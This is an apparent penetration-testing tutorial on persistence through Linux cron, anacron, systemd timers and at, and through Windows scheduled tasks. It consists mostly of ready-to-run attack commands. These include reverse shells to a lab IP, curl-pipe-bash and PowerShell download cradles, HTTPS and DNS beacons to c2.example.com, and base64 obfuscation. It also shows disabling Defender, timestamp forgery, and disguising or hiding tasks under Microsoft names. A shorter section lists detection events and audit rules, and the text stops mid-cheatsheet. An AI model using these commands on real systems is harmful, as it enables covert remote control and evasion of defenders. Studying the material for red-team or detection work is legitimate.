


# Persistence via Scheduled Tasks and Cron Jobs

> **Difficulty:** Intermediate | **Category:** Penetration Testing | **MITRE ATT&CK:** T1053

---

## 1. Introduction

**Scheduled execution** is one of the most reliable persistence mechanisms available to an attacker. Unlike registry run keys or startup folders (which only fire on user login), scheduled tasks and cron jobs can be configured to execute at any arbitrary interval, on reboot, or when specific system events occur — entirely without user interaction.

### Why Scheduled Tasks Are Ideal for Persistence

| Advantage | Details |
|---|---|
| **No user interaction required** | Jobs fire on schedule regardless of who is logged in |
| **Survives reboots** | `@reboot` cron entries and `onstart` scheduled tasks persist across power cycles |
| **Both user and root context** | Non-privileged users can create user-scoped jobs; root/SYSTEM access unlocks system-wide persistence |
| **Native OS functionality** | Less likely to be flagged vs. third-party tools |
| **Flexible triggers** | Time-based, event-based, login-based, and interval-based triggers available |
| **LOLBin opportunity** | Task executors (`schtasks.exe`, `cron`) are legitimate binaries — hard to block |

> **Note:** Scheduled tasks blend naturally with legitimate administrative activity. A well-named task with a plausible description is far less suspicious than a rogue process starting from a temp directory.

### Attacker Privilege Tiers

- **Unprivileged user** — can create user-scoped crontabs (`crontab -e`) and Windows tasks running as themselves
- **Local Admin / sudo** — can create system-wide cron jobs, modify `/etc/cron.d/`, create SYSTEM-level scheduled tasks
- **SYSTEM / root** — full control over all scheduling facilities, including modifying existing tasks to inject malicious actions

---

## 2. Linux — Cron Jobs

### 2.1 Cron Syntax

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7, Sunday = 0 or 7)
# │ │ │ │ │
# * * * * *  command to execute

# Examples:
* * * * *   /tmp/.x/shell.sh          # every minute
*/5 * * * * /tmp/.x/shell.sh          # every 5 minutes
0 */6 * * * /tmp/.x/shell.sh          # every 6 hours
0 2 * * 0   /tmp/.x/shell.sh          # every Sunday at 02:00
0 9 * * 1-5 /tmp/.x/shell.sh          # weekdays at 09:00
@reboot     /tmp/.x/shell.sh          # on every system reboot
@hourly     /tmp/.x/shell.sh          # equivalent to 0 * * * *
@daily      /tmp/.x/shell.sh          # equivalent to 0 0 * * *
```

### Cron Time Field Breakdown

| Field | Allowed Values | Special Characters |
|---|---|---|
| Minute | 0–59 | `*` (any), `,` (list), `-` (range), `/` (step) |
| Hour | 0–23 | `*`, `,`, `-`, `/` |
| Day of Month | 1–31 | `*`, `,`, `-`, `/`, `?` |
| Month | 1–12 or JAN–DEC | `*`, `,`, `-`, `/` |
| Day of Week | 0–7 (0 and 7 = Sunday) or SUN–SAT | `*`, `,`, `-`, `/` |

### 2.2 User Crontab (Persists as Current User)

User crontabs are stored in `/var/spool/cron/crontabs/<username>` and run with the privileges of the owning user.

```bash
# Open the current user's crontab for editing
crontab -e

# List current user's crontab
crontab -l

# List another user's crontab (root only)
crontab -l -u www-data

# Install a crontab from a file
crontab /tmp/mycron.txt

# Delete the current user's crontab
crontab -r
```

**Adding a reverse shell entry directly:**

```bash
# Append a reverse shell — fires every minute
(crontab -l 2>/dev/null; echo "* * * * * bash -i >& /dev/tcp/10.10.10.1/4444 0>&1") | crontab -

# Using ncat instead of bash TCP redirect
(crontab -l 2>/dev/null; echo "* * * * * ncat 10.10.10.1 4444 -e /bin/bash") | crontab -

# Curl-based callback — download and execute a payload every 5 minutes
(crontab -l 2>/dev/null; echo "*/5 * * * * curl -s http://10.10.10.1/p.sh | bash") | crontab -

# Python-based reverse shell
(crontab -l 2>/dev/null; echo "* * * * * python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.10.1\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'") | crontab -
```

> **Warning:** Running a reverse shell every minute generates significant noise in `cron.log` and on your listener. Use longer intervals (every 5–15 minutes) in real engagements to reduce detection risk.

### 2.3 System-Wide Cron (Requires Root)

```bash
# /etc/crontab — system-wide, must include the username field
echo "* * * * * root bash -i >& /dev/tcp/10.10.10.1/4444 0>&1" >> /etc/crontab

# /etc/cron.d/ — drop-in directory, same format as /etc/crontab
echo "* * * * * root /tmp/.update/shell.sh" > /etc/cron.d/system-update
chmod 644 /etc/cron.d/system-update

# Inject into an existing cron.d file (stealthier)
echo "*/10 * * * * root /tmp/.x/shell.sh" >> /etc/cron.d/sysstat
```

**Drop-in cron directories — executed by run-parts:**

| Directory | Frequency | Notes |
|---|---|---|
| `/etc/cron.hourly/` | Every hour | Scripts must be executable, no extension |
| `/etc/cron.daily/` | Once a day | Often around 06:25 depending on distro |
| `/etc/cron.weekly/` | Once a week | Lower frequency = lower noise |
| `/etc/cron.monthly/` | Once a month | Very low noise, delayed persistence |

```bash
# Drop a script into cron.daily — executes ~daily as root
cat > /etc/cron.daily/apt-update << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
EOF
chmod +x /etc/cron.daily/apt-update

# cron.hourly for more frequent re-execution
cat > /etc/cron.hourly/logrotate-helper << 'EOF'
#!/bin/bash
/usr/local/lib/.cache/loader &>/dev/null
EOF
chmod +x /etc/cron.hourly/logrotate-helper
```

> **Note:** Files in `/etc/cron.daily/` must be executable and must **not** have a file extension (e.g., no `.sh`) on Debian/Ubuntu systems that use `run-parts --lsbsysinit`.

### 2.4 @reboot Cron Entry

```bash
# Persists across reboots — fires once per boot
(crontab -l 2>/dev/null; echo "@reboot /home/user/.config/.autorun.sh") | crontab -

# As root — system-wide reboot persistence
echo "@reboot root /usr/local/sbin/.updater" >> /etc/crontab

# Useful for re-establishing C2 after reboot
(crontab -l 2>/dev/null; echo "@reboot sleep 30 && /tmp/.x/shell.sh") | crontab -
# sleep 30 ensures network is up before the callback attempt
```

### 2.5 Building the Backdoor Script

```bash
# Create hidden directory with leading dot
mkdir -p /tmp/.backdoor

# Write reverse shell script
cat > /tmp/.backdoor/shell.sh << 'EOF'
#!/bin/bash
# system maintenance helper
while true; do
    bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
    sleep 60
done
EOF
chmod +x /tmp/.backdoor/shell.sh

# More resilient — check if session already active before connecting
cat > /tmp/.backdoor/shell.sh << 'EOF'
#!/bin/bash
LHOST="10.10.10.1"
LPORT=4444
# Only connect if not already connected
if ! ss -tp | grep -q "${LPORT}"; then
    bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1
fi
EOF
chmod +x /tmp/.backdoor/shell.sh

# Touch file timestamps to match surrounding files (anti-forensics)
touch -r /bin/ls /tmp/.backdoor/shell.sh
touch -r /bin/ls /tmp/.backdoor/
```

**Naming conventions for stealth:**

```bash
# Blend with system scripts — use familiar names
/usr/local/sbin/.update-ca-certs
/var/lib/dpkg/.post-install
/home/user/.config/systemd/.helper
/tmp/.font-cache-update
/usr/lib/apt/.apt-methods-helper
```

### 2.6 Anacron — For Missed Jobs

**anacron** ensures that jobs missed during system downtime are executed when the system comes back online. Located at `/etc/anacrontab`.

```bash
# View anacron configuration
cat /etc/anacrontab

# Format: period  delay  job-identifier  command
# period: days between runs
# delay: minutes to wait after startup
# Example entries:
# 1   5    cron.daily   run-parts /etc/cron.daily
# 7   10   cron.weekly  run-parts /etc/cron.weekly

# Inject a malicious anacron entry
echo "1    10    system-update    /usr/local/sbin/.updater" >> /etc/anacrontab

# View anacron timestamp files (tells you when jobs last ran)
ls -la /var/spool/anacron/
```

> **Note:** Anacron is particularly useful for persistence on laptops or servers with irregular uptime — the job will always run eventually, even if the machine was off during the scheduled window.

### 2.7 Systemd Timers as a Cron Alternative

Systemd timers are increasingly common on modern Linux distributions and offer more precise scheduling than cron.

```bash
# Create the service unit (what to execute)
cat > /etc/systemd/system/system-update.service << 'EOF'
[Unit]
Description=System Update Manager
After=network.target

[Service]
Type=oneshot
ExecStart=/usr/local/sbin/.update-helper
StandardOutput=null
StandardError=null
EOF

# Create the timer unit (when to execute)
cat > /etc/systemd/system/system-update.timer << 'EOF'
[Unit]
Description=Trigger System Update Manager

[Timer]
OnCalendar=*:0/5
AccuracySec=1s
Persistent=true

[Install]
WantedBy=timers.target
EOF

# Enable and start the timer
systemctl daemon-reload
systemctl enable system-update.timer
systemctl start system-update.timer

# Verify it is active
systemctl list-timers --all | grep system-update
```

**Useful OnCalendar expressions:**

| Expression | Meaning |
|---|---|
| `*:0/5` | Every 5 minutes |
| `*-*-* *:00:00` | Every hour |
| `daily` | Once a day at midnight |
| `weekly` | Once a week (Monday 00:00) |
| `OnBootSec=30s` | 30 seconds after boot (use in `[Timer]`) |
| `OnActiveSec=10min` | 10 minutes after timer activation |

```bash
# User-level systemd timer (no root required)
mkdir -p ~/.config/systemd/user/

cat > ~/.config/systemd/user/update-helper.service << 'EOF'
[Unit]
Description=Update Helper

[Service]
ExecStart=/home/%u/.config/.shell.sh
EOF

cat > ~/.config/systemd/user/update-helper.timer << 'EOF'
[Unit]
Description=Update Helper Timer

[Timer]
OnCalendar=*:0/10
Persistent=true

[Install]
WantedBy=default.target
EOF

systemctl --user daemon-reload
systemctl --user enable update-helper.timer
systemctl --user start update-helper.timer

# Enable lingering so user timers survive logout
loginctl enable-linger $(whoami)
```

> **Warning:** `loginctl enable-linger` is a strong persistence indicator — it allows user services to run even when no user session is active and is rarely set for non-system users. Blue teams often alert on this.

---

## 3. Windows — Scheduled Tasks

### 3.1 Task Scheduler Architecture

Windows Task Scheduler organizes tasks in a hierarchical **XML-based** structure stored in `C:\Windows\System32\Tasks\`.

| Component | Description |
|---|---|
| **Task Definition** | XML file describing the full task; stored in `%SystemRoot%\System32\Tasks\` |
| **Triggers** | Define *when* a task runs (time, event, logon, startup, idle, etc.) |
| **Actions** | Define *what* runs — executable, COM object, or email (deprecated) |
| **Conditions** | Optional constraints — only run on AC power, only when idle, etc. |
| **Settings** | Run if missed, stop if runs too long, delete when expired, hidden flag |
| **Principal** | The security context (user account or SYSTEM) under which the task runs |

Task definitions are stored as XML files in:
- `C:\Windows\System32\Tasks\` — system tasks
- `C:\Windows\SysWOW64\Tasks\` — 32-bit tasks on 64-bit systems
- Registry: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\`

### 3.2 schtasks.exe — Command Line Interface

```cmd
REM ── Basic task: every 1 minute as current user ──────────────────────────────
schtasks /create /sc minute /mo 1 /tn "WindowsDefenderUpdate" /tr "C:\Windows\Temp\update.exe" /f

REM ── Run as SYSTEM ─────────────────────────────────────────────────────────
schtasks /create /sc minute /mo 1 /tn "Windows Update Helper" /tr "C:\Windows\Temp\backdoor.exe" /ru SYSTEM /f

REM ── Trigger: at every user logon ──────────────────────────────────────────
schtasks /create /sc onlogon /tn "Security Monitor" /tr "C:\Temp\shell.exe" /ru SYSTEM /f

REM ── Trigger: at system startup (before logon) ─────────────────────────────
schtasks /create /sc onstart /tn "System Diagnostics" /tr "C:\Temp\shell.exe" /ru SYSTEM /f

REM ── Trigger: daily at 12:00 ───────────────────────────────────────────────
schtasks /create /sc daily /st 12:00 /tn "Backup Service" /tr "C:\Temp\shell.exe" /ru SYSTEM /f

REM ── Trigger: weekly on Sunday ─────────────────────────────────────────────
schtasks /create /sc weekly /d SUN /st 03:00 /tn "Maintenance" /tr "C:\Temp\shell.exe" /ru SYSTEM /f

REM ── Trigger: once, at specific datetime ───────────────────────────────────
schtasks /create /sc once /st 23:00 /sd 12/31/2024 /tn "NewYearUpdate" /tr "C:\Temp\shell.exe" /f

REM ── Run with highest privileges ───────────────────────────────────────────
schtasks /create /sc minute /mo 5 /tn "SvcHost Updater" /tr "C:\Windows\Temp\svchostupd.exe" /ru SYSTEM /rl HIGHEST /f

REM ── Hidden task (does not appear in Task Scheduler GUI) ───────────────────
schtasks /create /sc minute /mo 1 /tn "WindowsDefenderUpdate" /tr "wscript.exe C:\Windows\Temp\run.vbs" /ru SYSTEM /f
REM Note: Full hiding requires modifying the registry key directly

REM ── Place task in subdirectory to blend with Microsoft tasks ──────────────
schtasks /create /sc minute /mo 5 /tn "\Microsoft\Windows\Maintenance\ScanHealth" /tr "C:\Windows\Temp\shell.exe" /ru SYSTEM /f

REM ── Query all tasks ───────────────────────────────────────────────────────
schtasks /query /fo LIST /v
schtasks /query /fo TABLE
schtasks /query /fo LIST /v | findstr /i "task name\|run as user\|next run\|status\|to run"

REM ── View task XML definition ──────────────────────────────────────────────
schtasks /query /tn "WindowsDefenderUpdate" /xml

REM ── Manually run a task ───────────────────────────────────────────────────
schtasks /run /tn "WindowsDefenderUpdate"

REM ── Delete a task ─────────────────────────────────────────────────────────
schtasks /delete /tn "WindowsDefenderUpdate" /f

REM ── Change an existing task ───────────────────────────────────────────────
schtasks /change /tn "Adobe Update" /tr "C:\Windows\Temp\backdoor.exe" /enable
```

### 3.3 PowerShell — Scheduled Task Cmdlets

```powershell
# ── Encode a reverse shell payload ──────────────────────────────────────────
$cmd = 'IEX(New-Object Net.WebClient).DownloadString("http://10.10.10.1/shell.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encodedCmd = [Convert]::ToBase64String($bytes)
Write-Host $encodedCmd

# ── Create action: run encoded powershell ────────────────────────────────────
$action = New-ScheduledTaskAction `
    -Execute 'powershell.exe' `
    -Argument "-WindowStyle Hidden -NonInteractive -NoProfile -EncodedCommand $encodedCmd"

# ── Triggers ──────────────────────────────────────────────────────────────────
# Repeat every 5 minutes indefinitely
$trigger = New-ScheduledTaskTrigger `
    -RepetitionInterval (New-TimeSpan -Minutes 5) `
    -Once `
    -At (Get-Date)

# At user logon
$trigger = New-ScheduledTaskTrigger -AtLogon

# At system startup
$trigger = New-ScheduledTaskTrigger -AtStartup

# Daily at 02:00
$trigger = New-ScheduledTaskTrigger -Daily -At "02:00"

# Multiple triggers combined
$triggers = @(
    (New-ScheduledTaskTrigger -AtStartup),
    (New-ScheduledTaskTrigger -RepetitionInterval (New-TimeSpan -Minutes 10) -Once -At (Get-Date))
)

# ── Settings ──────────────────────────────────────────────────────────────────
$settings = New-ScheduledTaskSettingsSet `
    -Hidden `
    -ExecutionTimeLimit (New-TimeSpan -Minutes 2) `
    -MultipleInstances IgnoreNew `
    -RestartCount 3 `
    -RestartInterval (New-TimeSpan -Minutes 1)

# ── Principal: run as SYSTEM ──────────────────────────────────────────────────
$principal = New-ScheduledTaskPrincipal `
    -UserId "NT AUTHORITY\SYSTEM" `
    -LogonType ServiceAccount `
    -RunLevel Highest

# ── Register the task ─────────────────────────────────────────────────────────
Register-ScheduledTask `
    -Action $action `
    -Trigger $triggers `
    -TaskName "WindowsUpdater" `
    -TaskPath "\Microsoft\Windows\Maintenance\" `
    -Settings $settings `
    -Principal $principal `
    -Force

# ── List all scheduled tasks ──────────────────────────────────────────────────
Get-ScheduledTask | Select-Object TaskName, TaskPath, State | Format-Table -AutoSize

# List only running tasks
Get-ScheduledTask | Where-Object { $_.State -eq 'Running' }

# Get detailed info on a task
Get-ScheduledTaskInfo -TaskName "WindowsUpdater" -TaskPath "\Microsoft\Windows\Maintenance\"

# ── Disable Security Center to prevent task scanning ─────────────────────────
Set-MpPreference -DisableRealtimeMonitoring $true

# ── Modify an existing legitimate task to add your action ─────────────────────
$existingTask = Get-ScheduledTask -TaskName "Adobe Acrobat Update Task"
$newAction = New-ScheduledTaskAction -Execute 'cmd.exe' -Argument '/c C:\Windows\Temp\shell.exe'
$existingTask.Actions += $newAction
Set-ScheduledTask -InputObject $existingTask

# ── Export task XML (for inspection or re-import on another host) ─────────────
Export-ScheduledTask -TaskName "WindowsUpdater" | Out-File C:\Temp\task.xml

# ── Import task from XML (lateral movement) ───────────────────────────────────
Register-ScheduledTask -Xml (Get-Content C:\Temp\task.xml | Out-String) -TaskName "WindowsUpdater" -Force
```

### 3.4 Task Naming OPSEC

Use names that closely resemble legitimate Microsoft or application tasks:

| Malicious Intent | Convincing Name | Spoofed Path |
|---|---|---|
| General backdoor | `WindowsDefenderUpdate` | `\Microsoft\Windows\Windows Defender\` |
| Persistence after reboot | `System Diagnostics` | `\Microsoft\Windows\DiskDiagnostic\` |
| Regular callback | `Software Protection` | `\Microsoft\Windows\SoftwareProtectionPlatform\` |
| Low-frequency callback | `Scheduled Maintenance` | `\Microsoft\Windows\Maintenance\` |
| Blends with AV | `MpCmdRun Scheduler` | `\Microsoft\Windows\Windows Defender\` |

```cmd
REM View all existing Microsoft task paths to choose a convincing one
schtasks /query /fo LIST /v | findstr "Task Name"

REM Use a path that already exists (harder to spot with a quick glance)
schtasks /create /sc minute /mo 5 /tn "\Microsoft\Windows\Application Experience\StartupMonitor" /tr "C:\Windows\Temp\shell.exe" /ru SYSTEM /f
```

### 3.5 Registry-Based Task Hiding

Tasks marked as hidden in their XML have `<Hidden>true</Hidden>` in their settings. This hides them from the GUI but not from the command line. For full stealth, modify the registry:

```powershell
# Set the task's SD (Security Descriptor) to deny read to non-SYSTEM accounts
# This hides it from schtasks /query as a non-admin user

$taskName = "WindowsUpdater"
$taskPath = "\Microsoft\Windows\Maintenance\"
$regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\Microsoft\Windows\Maintenance\$taskName"

# Remove read permission from the registry key for standard users
$acl = Get-Acl $regPath
$rule = New-Object System.Security.AccessControl.RegistryAccessRule(
    "BUILTIN\Users", "ReadKey", "Deny"
)
$acl.AddAccessRule($rule)
Set-Acl -Path $regPath -AclObject $acl
```

---

## 4. Linux — `at` and `batch` Commands

The `at` command schedules one-time job execution at a specified time. Unlike cron, it does not repeat — but it is useful for delayed payload detonation.

```bash
# Check if at is installed
which at && at -V

# Install if missing
apt install at -y    # Debian/Ubuntu
yum install at -y    # RHEL/CentOS

# Start the atd daemon
systemctl enable atd && systemctl start atd

# ── One-time execution: 1 minute from now ────────────────────────────────────
echo "bash -i >& /dev/tcp/10.10.10.1/4444 0>&1" | at now + 1 minute

# ── Scheduled for a specific time ────────────────────────────────────────────
echo "/tmp/.backdoor/shell.sh" | at 23:55

# ── Scheduled for a specific date and time ───────────────────────────────────
echo "/tmp/.backdoor/shell.sh" | at 09:00 AM 12/31/2024

# ── Multi-command job ─────────────────────────────────────────────────────────
at now + 5 minutes << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
EOF

# ── List pending at jobs ──────────────────────────────────────────────────────
atq

# ── View a specific job's commands ───────────────────────────────────────────
at -c <job_number>

# ── Remove a pending job ──────────────────────────────────────────────────────
atrm <job_number>

# ── batch: runs when system load drops below 1.5 ─────────────────────────────
echo "/tmp/.backdoor/shell.sh" | batch

# ── Chaining at jobs: re-schedule yourself after execution (loop) ────────────
cat > /tmp/.backdoor/shell.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
# Re-schedule for 10 minutes from now
echo "/tmp/.backdoor/shell.sh" | at now + 10 minutes
EOF
chmod +x /tmp/.backdoor/shell.sh
echo "/tmp/.backdoor/shell.sh" | at now + 1 minute
```

> **Note:** `at` jobs are stored in `/var/spool/at/` (or `/var/spool/cron/atjobs/` on some distros). They are owned by root but readable only to the owning user and root — inspect with `sudo ls /var/spool/at/`.

---

## 5. OPSEC Considerations

### 5.1 Naming and Camouflage

```bash
# Linux: match names of existing system cron jobs
ls /etc/cron.daily/        # see what already exists
ls /etc/cron.d/            # see existing drop-in files

# Copy a legitimate file's timestamp to your malicious cron entry
touch -r /etc/cron.d/sysstat /etc/cron.d/system-update

# Windows: check existing tasks to pick non-conflicting names
schtasks /query /fo TABLE | sort

# Use Unicode lookalikes in task names to confuse defenders
# e.g., Wіndows (Cyrillic 'і') vs Windows (Latin 'i')
```

### 5.2 Execution Interval Guidance

| Scenario | Recommended Interval | Reasoning |
|---|---|---|
| Initial access, high urgency | 1–2 minutes | Acceptable briefly; remove promptly |
| Standard C2 beacon | 10–15 minutes | Balances responsiveness with noise |
| Low-and-slow operation | 30–60 minutes | Very low noise, survives blue-team reviews |
| Weekly maintenance | Weekly (off-hours) | Minimal detection surface |
| Reboot persistence only | `@reboot` / `AtStartup` | Zero interval noise |

### 5.3 File Location Recommendations

```bash
# Linux — use paths that appear legitimate
/usr/local/sbin/        # sysadmin scripts, less scrutinised
/usr/lib/               # library directories, large surface area
/var/lib/               # application state, rarely audited by admins
~/.config/              # user-level, less monitored than /tmp

# Avoid
/tmp/                   # world-writeable, monitored, cleared on reboot
/dev/shm/               # monitored in modern EDR tools
```

```powershell
# Windows — preferred payload locations
C:\Windows\System32\    # trusted path, requires SYSTEM
C:\Windows\SysWOW64\    # 32-bit, less scrutinised
C:\ProgramData\         # application data, often excluded from AV scans
C:\Windows\Temp\        # acceptable briefly, then clean up

# Avoid
C:\Users\Public\        # commonly monitored
C:\Temp\                # common IOC path
```

### 5.4 Payload Obfuscation

```bash
# Linux: encode the command to avoid string matching
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzQ0NDQgMD4mMQ==" | base64 -d | bash

# Use env variable indirection
X="bash"; Y=" -i >& /dev/tcp/10.10.10.1/4444 0>&1"; $X$Y
```

```powershell
# Windows: use encoded command
$cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.1/shell.ps1')"
$enc = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
powershell.exe -EncodedCommand $enc

# Use COM object instead of direct executable
$action = New-ScheduledTaskAction -Execute 'wscript.exe' -Argument 'C:\ProgramData\update.vbs'
```

### 5.5 Network Stealth

```bash
# Use HTTPS callbacks to blend with web traffic
# (requires a valid TLS cert on your C2)
* * * * * curl -sk https://c2.example.com/beacon -o /tmp/.r && chmod +x /tmp/.r && /tmp/.r

# DNS-based C2 callback (very stealthy)
* * * * * dig TXT cmd.c2.example.com +short | bash

# Wrap in a check to avoid duplicate connections
* * * * * pgrep -x "shell" || /tmp/.backdoor/shell.sh
```

---

## 6. Detection Indicators

### 6.1 Linux Detection

| Indicator | Location / Command |
|---|---|
| New/modified user crontabs | `/var/spool/cron/crontabs/` |
| New files in drop-in cron dirs | `/etc/cron.d/`, `/etc/cron.daily/`, etc. |
| Modified system crontab | `/etc/crontab` — monitor with `inotifywait` |
| New systemd timer units | `/etc/systemd/system/*.timer` |
| Anacron modifications | `/etc/anacrontab` |
| At job queue | `/var/spool/at/` |
| loginctl linger enabled | `ls /var/lib/systemd/linger/` |
| Cron execution logs | `/var/log/syslog`, `/var/log/cron` |

```bash
# Check all user crontabs (root required)
for user in $(cut -f1 -d: /etc/passwd); do
    crontab -l -u "$user" 2>/dev/null && echo "── $user ──"
done

# Monitor cron file changes in real-time with auditd
auditctl -w /etc/crontab -p wa -k cron-persistence
auditctl -w /etc/cron.d/ -p wa -k cron-persistence
auditctl -w /var/spool/cron/crontabs/ -p wa -k cron-persistence

# Search auditd logs for cron modifications
ausearch -k cron-persistence | grep -i "type=SYSCALL"

# Find recently modified cron files
find /etc/cron* /var/spool/cron/ -newer /etc/passwd -ls 2>/dev/null
```

### 6.2 Windows Detection

| Event ID | Source | Description |
|---|---|---|
| **4698** | Security | A scheduled task was created |
| **4699** | Security | A scheduled task was deleted |
| **4700** | Security | A scheduled task was enabled |
| **4701** | Security | A scheduled task was disabled |
| **4702** | Security | A scheduled task was updated |
| **106** | Task Scheduler/Operational | Task registered |
| **200** | Task Scheduler/Operational | Task executed |
| **201** | Task Scheduler/Operational | Task completed |
| **11** | Sysmon | FileCreate in `\Tasks\` path |
| **13** | Sysmon | Registry value set in Task Cache |

```powershell
# Query Security event log for task creation (Event ID 4698)
Get-WinEvent -LogName Security -FilterXPath "*[System[EventID=4698]]" |
    Select-Object TimeCreated, Message | Format-List

# Query Task Scheduler Operational log
Get-WinEvent -LogName "Microsoft-Windows-TaskScheduler/Operational" |
    Where-Object { $_.Id -in @(106, 200, 201) } |
    Select-Object TimeCreated, Id, Message |
    Format-Table -AutoSize

# Autoruns (Sysinternals) — best tool for scheduled task enumeration
# Run from command line:
# autorunsc.exe -a t -accepteula -nobanner

# Compare current tasks against a baseline
Get-ScheduledTask | Export-Csv C:\baseline-tasks.csv -NoTypeInformation
# Later: diff against new snapshot
```

> **Note:** Windows Event ID 4698/4702 are only logged when **Object Audit** policy is enabled under Advanced Audit Policy → Object Access → Audit Other Object Access Events. This is not enabled by default on many systems.

---

## 7. Persistence via Scheduling — Attack Flow





---

## 8. Summary Comparison Table

| OS | Method | Primary Command | Privilege Required | Trigger Types | Persistence Scope | MITRE ID |
|---|---|---|---|---|---|---|
| Linux | User crontab | `crontab -e` | Current user | Time interval, @reboot | User session | T1053.003 |
| Linux | System crontab | `echo >> /etc/crontab` | root | Time interval, @reboot | System-wide | T1053.003 |
| Linux | cron.d drop-in | Write to `/etc/cron.d/` | root | Time interval | System-wide | T1053.003 |
| Linux | cron.daily/hourly | Write to `/etc/cron.daily/` | root | Periodic | System-wide | T1053.003 |
| Linux | anacron | Edit `/etc/anacrontab` | root | Daily+, post-boot | System-wide | T1053.003 |
| Linux | systemd timer (system) | `systemctl enable x.timer` | root | Calendar, boot offset | System-wide | T1053.006 |
| Linux | systemd timer (user) | `systemctl --user enable` | Current user | Calendar, boot offset | User session | T1053.006 |
| Linux | at / batch | `echo cmd \| at now + 1m` | Current user | One-time (can chain) | User session | T1053.003 |
| Windows | schtasks.exe | `schtasks /create` | User / Admin | Time, logon, startup, event | User or System | T1053.005 |
| Windows | PowerShell cmdlets | `Register-ScheduledTask` | User / Admin | Time, logon, startup, event | User or System | T1053.005 |
| Windows | XML import | `schtasks /create /xml` | Admin | Any | User or System | T1053.005 |
| Windows | COM API (direct) | `Schedule.Service` COM | Admin | Any | User or System | T1053.005 |

### MITRE ATT&CK Sub-Techniques

| ID | Name | Platform |
|---|---|---|
| **T1053.002** | At | Linux, macOS, Windows |
| **T1053.003** | Cron | Linux, macOS |
| **T1053.005** | Scheduled Task | Windows |
| **T1053.006** | Systemd Timers | Linux |
| **T1053.007** | Container Orchestration Job | Containers (Kubernetes CronJob) |

---

## 9. Quick-Reference Cheatsheet

### Linux

```bash
# List all cron sources on a target
crontab -l                              # current user
sudo crontab -l                         # root's crontab
cat /etc/crontab                        # system crontab
ls -la /etc/cron.{d,daily,hourly,weekly,monthly}/
sudo cat /var/spool/cron/crontabs/*     # all user crontabs
systemctl list-timers --all             # systemd timers
atq                                     # pending at jobs
cat /etc/anacrontab                     # anacron jobs

# Inject user-level cron (one-liner)
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -i >& /dev/tcp/LHOST/LPORT 0>&1") | crontab -

# Inject system-level cron (root)
